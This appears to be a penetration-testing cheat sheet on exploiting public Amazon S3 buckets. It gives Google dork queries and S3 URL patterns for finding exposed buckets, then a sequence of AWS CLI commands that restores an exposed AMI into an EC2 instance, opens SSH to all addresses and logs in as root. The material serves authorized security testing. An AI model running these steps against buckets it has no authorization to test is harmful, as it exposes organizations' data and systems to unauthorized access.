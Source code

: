 # Public S3 Bucket Exploits

## Enumeration

### Google Dorks

Generic search. Chain these search parameters with target specific names or keywords to detect only the buckets within the test scope

```
site:http://s3.amazonaws.com intitle:index.of.bucket
site:.s3.amazonaws.com "<org name>"
site:http://amazonaws.com inurl:".s3.amazonaws.com/"
intitle:index.of.bucket
site:http://s3.amazonaws.com intitle:Bucket loading
site:*.amazonaws.com inurl:index.html
Bucket Date Modified
```

### Domain recon

DNS Query

```
nslookup <domain>    #try with top domain and subdomain
```

### Default names

```
http://s3.amazonaws.com/bucket/key (for a bucket created in the US East (N. Virginia) region)
https://s3.amazonaws.com/bucket/key
http://s3-region.amazonaws.com/bucket/key
https://s3-region.amazonaws.com/bucket/key
http://s3.region.amazonaws.com/bucket/key
https://s3.region.amazonaws.com/bucket/key
http://s3.dualstack.region.amazonaws.com/bucket/key (for requests using IPv4 or IPv6)
https://s3.dualstack.region.amazonaws.com/bucket/key
http://bucket.s3.amazonaws.com/key
http://bucket.s3-region.amazonaws.com/key
http://bucket.s3.region.amazonaws.com/key
http://bucket.s3.dualstack.region.amazonaws.com/key (for requests using IPv4 or IPv6)
http://bucket.s3-website.region.amazonaws.com/key (if static website hosting is enabled on the bucket)
http://bucket.s3-accelerate.amazonaws.com/key (where the filetransfer exits Amazon's network at the last possible moment so as to give the fastest possible transfer speed and lowest latency)
http://bucket.s3-accelerate.dualstack.amazonaws.com/key
http://bucket/key (where bucket is a DNS CNAME record pointing to bucket.s3.amazonaws.com)
https://access_point_name-account ID.s3-accesspoint.region.amazonaws.com (for requests via an access point granting restricted access to a bucket)
```

Other typical name conventions

```
assets.<domain>.com.s3.amazonaws.com/
<domain>-<prod|uat|test|dev|public>.s3.amazonaws.com/
```

## Pivoting and Exploits

### AMI file to EC2 compromise

Restore the EC2 instance using the exposed AMI file. You will receive a JSON response with an `ImageId` key and value. Store the value because it will be needed to start the instance.

```
aws ec2 create-restore-image-task --object-key <AMI id> --bucket <bucket> --name <arbitrary name>
```

Create a new SSH key pair

```
aws ec2 create-key-pair --key-name <arbitrary name> --query "KeyMaterial" --output text > <path>.pem
```

Get information about subnets and security groups

```
aws ec2 describe-subnets
aws ec2 describe-security-groups
```

If the subnet does not contain a security rule that allows SSH access run the following commands

```
aws ec2 create-security-group --group-name <name> --description "<descr>" --vpc-id <subnet id>
aws ec2 authorize-security-group-ingress --group-id <security group id> --protocol tcp --port 22 --cidr 0.0.0.0/0
```

Create a new EC2 instance with SSH access. Add the generated key to the new instance. If the operation is successful you will receive a JSON response with the information related to the new EC2 instance. Store the `InstanceId` value as reference to the new instance.

```
aws ec2 run-instances --image-id <restored image ID> --instance-type t3a.micro --key-name <generated key name> --subnet-id <subnet id> --security-group-id <security group id>
```

Get the public ip address of the instance

```
aws ec2 describe-instances --instance-ids <instance id> --query 'Reservations[*].Instances[*].PublicIpAddress' --output text
```

Connect to the instance via SSH

```
ssh -i "<key file>.pem" root@<EC2 ip address>
```
